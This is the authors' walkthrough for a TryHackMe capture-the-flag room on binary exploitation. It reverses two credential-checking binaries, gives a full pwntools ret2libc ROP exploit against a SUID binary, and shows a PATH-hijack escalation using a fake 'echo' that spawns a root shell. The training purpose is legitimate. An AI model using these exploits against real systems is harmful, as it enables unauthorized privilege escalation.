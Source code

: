 # THM - Official Binary Heaven Walkthrough

This is a THM room created by swanandx and Lammm that touches on exploting binary. This is our first time creating a room and we hope you will enjoy it. 

Link to room: https://tryhackme.com/room/binaryheaven

## Task 1 - Deploy the machine
Like what the task suggested, deploy the VM and move on to Task 2.

## Task 2 - Being worthy
Upon downloading the task file, we get a zip file `credentials.zip`. Unzip it and we see 2 files, `angel_A` and `angel_B`, let's check them out. Running `file` command on both file suggest that they are executable. After some blind testing, we can conclude that if ran successfully, `angel_A` and `angel_B` should return `username` and `password`, respectively. 

Next step, analyze the binaries and figuring out the credentials. We can analyze the binaries using either `Radare2`(CLI tool) or `Ghidra`(GUI application). I will be using Radare2 in this walkthrough.

### angel_A

Start analyzing the binary by running `r2 -d -A angel_A`. Next, we run `afl` to list all the functions. Then, if we were to disassemble a certain function, we could run `pdf @<function_name>`, `pdf @sym.main` in our case.

![](https://cdn.discordapp.com/attachments/800252815888089093/822462960080388106/r2.png)

As you can see in screen shot, it xor every character of our input with 4, and then adds 8 to it. Finally compares it with "kym\~humr". OR we can look at that address and get the hex vaulues for it.

![](https://cdn.discordapp.com/attachments/800252815888089093/822462962244911144/r2_value.png)

write a script to first subtract 8 from it and then xor against 4.

```python
hex_values = [] #list of the values we got using r2 or ghidra

username = ""
for char in hex_values:
	username += chr((char - 8) ^ 4)
print(username)

```


### angel_B
Likewise, start analyzing the binary with `r2 -d -A angel_B`. You might notice that r2 takes forever when it comes to analyzing this binary, reason being is that this is not a binary written in a "usual" language; it's written in Golang. `pdf @sym.main.main` to disassemble the main function. 

![](https://cdn.discordapp.com/attachments/797831156488994850/821373617908088903/unknown.png)

If you looked carefully at the function, you would notice that the password is displayed in plain sight, followed by a bunch of gibberish. Supply the password to the binary and we were told `Now GO ahead and SSH into heaven`. 

Upon SSH into the VM with the credentials we got from earlier, we land at user `guardian`. Inspect the home directory and grab the `guardian_flag.txt`.

## Task 3 - Return to the origins
 There is another binary file named `pwn_me` and it has SUID bit set for  user `binexgod`. Therefore, a logical assumption at this point would be, exploiting this binary should escalate us to user `binexgod`.  

It leaks the address of system, so we can bypass ASLR. Now, we have to find the offset for rip.
we can use pwntools cyclic for creating it. Run `cyclic <length>`. 

Put the pattern in temporary file, open the binary in gdb and run it with supplying that pattern. This will cause segfault. Take the value it gave and use `cyclic -l value` to find the offset.

![](https://cdn.discordapp.com/attachments/800252815888089093/822475037394075678/unknown.png)

Now we can automate the remaining ROP chain using pwntools.

```python
from pwn import *

elf = context.binary = ELF('./pwn_me')
libc = elf.libc
p = process()

#get the leaked address
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

#set our libc address according to the leaked address
libc.address = system_leak - libc.sym['system']
log.success('LIBC base: {}'.format(hex(libc.address)))

#get location of /bin/sh from libc
binsh = next(libc.search(b'/bin/sh'))

#build the rop chain
rop = ROP(libc)
rop.raw('A' * 32)
rop.system(binsh)

#send our rop chain
p.sendline(rop.chain())

#Get the shell
p.interactive()
```

![](https://cdn.discordapp.com/attachments/800252815888089093/822477365640691793/unknown.png)


After successfully escalating from guardian to `binexgod`, we can go ahead and grab the `binexgod_flag.txt`.

## Task 4 - PATH to root
The only thing left for us to do is to privesc to root. We were given a `vuln` binary alongside its source code `vuln.c`, let's check them out.

By running the `vuln` binary, we get the output *Get out of heaven lol*. Let us examine the source code and see what's happening under the hood then.

We can see that on line 17, the code is running the `echo` command specifically from the env variable. Which means this binary is potentially affected by `environment variable manimupation` attack. Let's give this a try.

![](https://cdn.discordapp.com/attachments/797831156488994850/821987747194732544/unknown.png)

First, cd into /tmp directory and create a file called `echo.c` which contains the following code.

```c
#include<stdio.h>
#include<stdlib.h>

int main()
{
  system("/bin/bash");
}
```

Nothing fancy here, just a C program that upon execute, will give us a bash shell. We then compile this C program by running `gcc -o echo echo.c`. Note that the output binary must be named `echo` because we are trying to replace the "legit echo" binary.

Final step, export the `/tmp` directory to `PATH environment variable` by running `export PATH=/tmp:$PATH`. Note that the `/tmp` directory is placed before everything else, which means if 2 binaries with the same name exist on multiple directories, the system will execute the one mentioned first in the `PATH environment variable`, in our case, is the `/tmp` directory.

After completing all the steps above, we run the vuln binary again and we would get root shell successfully!

## Task 5 - Credit
Once again, we really thank you for spending time going through the room. We hope you learn something new.

- swanandx#8944, [Twitter](https://twitter.com/_swanandx), [THM](https://tryhackme.com/p/swanandx)
- Lammm#7495, [Twitter](https://twitter.com/Lammm_99), [THM](https://tryhackme.com/p/lammm)
